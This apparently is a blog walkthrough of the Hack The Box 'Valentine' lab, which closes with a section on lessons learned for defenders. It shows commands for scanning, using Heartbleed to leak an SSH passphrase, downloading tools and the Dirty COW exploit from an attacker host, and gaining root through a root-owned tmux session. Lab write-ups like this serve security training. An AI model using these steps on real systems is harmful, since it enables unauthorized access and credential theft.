# Reconnaissance

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

```
nmap -sC -sV -O -oA htb/valentine/nmap/initial 10.10.10.79
```

- **-sC**: run default nmap scripts

- **-sV**: detect service version

- **-O**: detect OS

- **-oA**: output all formats and store in file _nmap/initial_

We get back the following result showing that three ports are open:

- **Port 22**: running OpenSSH 5.9p1

- **Ports 80 & 443: **running Apache httpd 2.2.22



Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

```
nmap -sC -sV -O -p- -oA htb/valentine/nmap/full 10.10.10.79
```

We get back the following result. No other ports are open.



Similarly, we run an nmap scan with the **-sU **flag enabled to run a UDP scan.

```
nmap -sU -O -p- -oA htb/valentine/nmap/udp 10.10.10.79
```

I managed to root the box and write this blog, while this UDP scan still did not terminate. So for this blog, I don’t have the UDP scan results.

# Enumeration

Visit the site in the browser.



It only contains a picture (which is a big indication of the vulnerability we’ll find) and no other links. So we’ll have to run Gobuster.

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.79
```

We get back the following results.



/index, /omg and /server-status lead nowhere. /encode and /decode seem to be scripts that encode and decode strings. /dev on the other hand proves to be interesting.



Click on the hype_key to get the following page.



It contains a string that is hex encoded. Let’s use an [online tool](https://conv.darkbyte.ru/) to convert it to text. We find out that it is an RSA private key!



Take the converted text format and save it into a hype_key file.

**Disclaimer:** You should NEVER enter your or anyone else’s credentials in online tools just in case it gets logged at the backend! In this case, it doesn’t matter since this is a fake security assessment.

We’ll try and ssh using our newly found private key. Based on the naming convention of pub/priv keys, “hype” is likely the username.

```
ssh -i hype_key hype@10.10.10.79
```

- **-i:** Selects a file from which the identity (private key) for RSA authentication is read.

I get back the following error.



Since a private key is equivalent to a password, it should only be readable by you. We resolve the error using the following command.

```
chmod 400 hype_key
```

However, we are prompted for a password that we still don’t have and so we need to do more enumeration.

Run nmap’s vulnerability scan script to determine if any of the services are vulnerable.

```
nmap --script vuln -oA vuln-scan 10.10.10.79
```



Port 443 is running a version of OpenSSL that is vulnerable to Heartbleed!

If you don’t know what that is, here’s a [great comic ](https://xkcd.com/1354/)explaining it. It is essentially a vulnerability in the popular OpenSSL cryptographic software library. This vulnerability allows anyone on the Internet to read the memory of the systems protected by this vulnerable version of OpenSSL. This can lead to the compromise of secret keys, passwords, information, etc. It also allows attackers to eavesdrop on communications. There’s a whole site dedicated to the [Hearbleed bug](http://heartbleed.com/).

# Gaining an Initial Foothold

Now that we know for sure that port 443 is running a vulnerable version of OpenSSL, let’s try and exploit it to gain an initial foothold on the target machine.

First, get the exploit from [online](https://gist.github.com/eelsivart/10174134#file-heartbleed-py-L8) and clone it.

```
git clone [https://gist.github.com/10174134.git](https://gist.github.com/10174134.git)
```

Run the script to view the help instructions.



Let’s run the exploit with a loop number of 10. We might have to run the script multiple times or increase the loop size depending on how useful the content of the memory dump is.

```
python heartbleed.py -p 443 -n 10 10.10.10.79
```

We’re looking for hype’s passphrase so that we could SSH into his account.

After rummaging through the memory dump, we find the following strings.



Someone used the decode.php script on the website to decode a string of characters. Copy the string and use the site to decode it.



This looks like a password! Let’s use it to ssh into hype’s account.

```
ssh -i hype_key hype@10.10.10.79
```

We have a low privileged shell!



Grab the user flag.



We need to escalate privileges.

# Privilege Escalation

Grab the [LinEnum](https://github.com/rebootuser/LinEnum) script if you don’t already have it. In the attack machine, start up a server in the directory that the script resides in.

```
python -m SimpleHTTPServer 5555
```

In the target machine download the script.

```
wget [http://10.10.14.6:5555/LinEnum.sh](http://10.10.14.6:5555/LinEnum.sh)
```

Run the script.

```
./LinEnum.sh
```

We get back many results of which two are interesting.

First, it’s running an old version of Ubuntu that is probably vulnerable to [Dirty COW](https://dirtycow.ninja/). Dirty COW is a privilege escalation vulnerability which exploits a race condition in the way the Linux kernel’s memory subsystem handles the copy-on-write (COW) breakage of private read-only memory mappings.



Second, there’s an active tmux session that is owned by root.



According to the [tmux man page](http://man7.org/linux/man-pages/man1/tmux.1.html):

> tmux is a terminal multiplexer: it enables a number of terminals to be
> created, accessed, and controlled from a single screen.

It’s essentially a shell that is owned by root! So if we can enter this active tmux session, any command we run there is executed with root privileges. This one I didn’t figure out on my own, I had to use[ ippsec’s help](https://www.youtube.com/watch?v=XYXNvemgJUo).

Alright, so we have two ways of escalating privileges.

**Privilege Escalation #1: Dirty COW Vulnerability**

To confirm that the target machine is vulnerable to Dirty COW, download the [Linux Exploit Suggester](https://github.com/jondonas/linux-exploit-suggester-2) script. In the attack machine, start up a server in the directory where the script resides.

```
python -m SimpleHTTPServer 5555
```

Download the exploit on your target machine.

```
wget [http://10.10.14.6:5555/linux-exploit-suggester-2.pl](http://10.10.14.6:5555/linux-exploit-suggester-2.pl)
```

Run the script.

```
./linux-exploit-suggester-2.pl
```

We confirm that it is vulnerable to Dirty COW.



I tried several of the exploits on this [page](https://dirtycow.ninja/) but they didn’t work. Therefore, I ended up using this [exploit](https://github.com/FireFart/dirtycow/blob/master/dirty.c).

Clone the exploit on the attack machine.

```
git clone [https://gist.github.com/e9d4ff65d703a9084e85fa9df083c679.git](https://gist.github.com/e9d4ff65d703a9084e85fa9df083c679.git)
```

Start up a server in the directory where the exploit resides.

```
python -m SimpleHTTPServer 5555
```

Transfer the exploit to the target machine.

```
wget [http://10.10.14.6:5555/dirty.c](http://10.10.14.6:5555/dirty.c)
```

Compile the file as per the included compile instructions.

```
gcc -pthread dirty.c -o dirty -lcrypt
```

Run the exploit.

```
./dirty
```

Choose the password for the newly created user.



Change to the newly created user.

```
su firefart
```

We have root privileges! Grab the root flag.



**Privilege Escalation #2: Attach to Root Owned tmux Session**

In the target machine, attach to the tmux shell using the following command.

```
tmux -S /.devs/dev_sess
```



Since this is a session owned by root, we have root privileges!

# Lessons Learned

To gain an initial foothold on the target machine we required two pieces of information: (1) the private key and (2) the passphrase to ssh into a user’s account. We got the private key by enumerating the directories and files that are available on the web server. As for the passphrase we exploited the Heartbleed bug in the vulnerable OpenSSL version used on the target machine.

Getting the private key could have been avoided if the user did not publish his credentials on a public web server. As for the passphrase, this could have been avoided if the patched version of OpenSSL was installed.

To escalate to root privileges we had two options: (1) exploit the Dirty COW vulnerability, or (2) attach to a tmux session that was owned by root.

Exploiting Dirty COW could have been avoided if the target machine was patched. As for the tmux privilege escalation, I’m not entirely sure that it is a vulnerability (and I stand to be corrected). It seems to be an intended functionality of tmux that allows any user on the box to attach to any session opened on that box. Precautions can be taken by (1) not running your tmux session as root and using sudo within the tmux session if you need root privileges, and (2) closing the tmux session once you’re done instead of having it run (and accessible) the entire time.

# Conclusion

8 machines down, 33 more to go

